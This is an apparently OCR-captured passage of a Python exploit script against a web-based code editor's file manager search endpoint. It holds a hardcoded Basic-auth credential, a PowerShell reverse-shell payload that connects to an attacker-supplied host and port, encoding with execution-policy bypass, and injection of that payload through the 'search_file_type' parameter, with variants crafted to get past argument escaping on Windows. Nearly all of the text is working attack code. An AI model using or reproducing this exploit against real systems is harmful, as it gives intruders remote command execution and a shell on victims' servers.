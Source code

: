   ```py
      print("[+] Login Content : %s" % (content))
      if 'status":"success"' in content:
          return True
  def get_write_able_path(domain):
      global session
      url = domain + "/components/project/controller.php?action=get_current"
      headers = {
          "Authorization": "Basic YWRtaW46ZGFudGUx"
      }
      response = session.get(url, headers=headers, verify=False)
      content = response.text
      print("[+] Path Content : %s" % (content))
      json_obj = json.loads(content)
      if json_obj['status'] == "success":
          return json_obj['data']['path']
      else:
          return False
  def base64_encode_2_bytes(host, port):
      payload = '''
      $client = New-Object System.Net.Sockets.TCPClient("__HOST__",__PORT__);
      $stream = $client.GetStream();
      [byte[]]$bytes = 0..255|%{0};
      while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
          $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
          $sendback = (iex $data 2>&1 | Out-String );
          $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
          $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
          $stream.Write($sendbyte,0,$sendbyte.Length);
          $stream.Flush();
      }
      $client.Close();
      '''
      result = ""
      for i in payload.replace("__HOST__", host).replace("__PORT__", str(port)):
          result += i + "\x00"
      return base64.b64encode(result.encode()).decode().replace("\n", "")
  def build_powershell_payload(host, port):
      preffix = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -enc "
      return preffix + base64_encode_2_bytes(host, port).replace("+", "%2b")
  def exploit(domain, username, password, host, port, path, platform):
      global session
      url = domain + \
          "/components/filemanager/controller.php?type=1&action=search&path=%s" % (
              path)
      if platform.lower().startswith("win"):
          # new version escapeshellarg
          # escapeshellarg on windows will quote the arg with ""
          # so we need to try twice
          payload = '||%s||' % (build_powershell_payload(host, port))
          payload = "search_string=Hacker&search_file_type=" + payload
          headers = {
              "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
          response = session.post(url, data=payload, headers=headers, verify=False)
          content = response.text
          print(content)
          # old version escapeshellarg
          payload = '%%22||%s||' % (build_powershell_payload(host, port))
          payload = "search_string=Hacker&search_file_type=" + payload
          headers = {
              "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
          response = session.post(url, data=payload, headers=headers, verify=False)
          content = response.text
          print(content)
  ```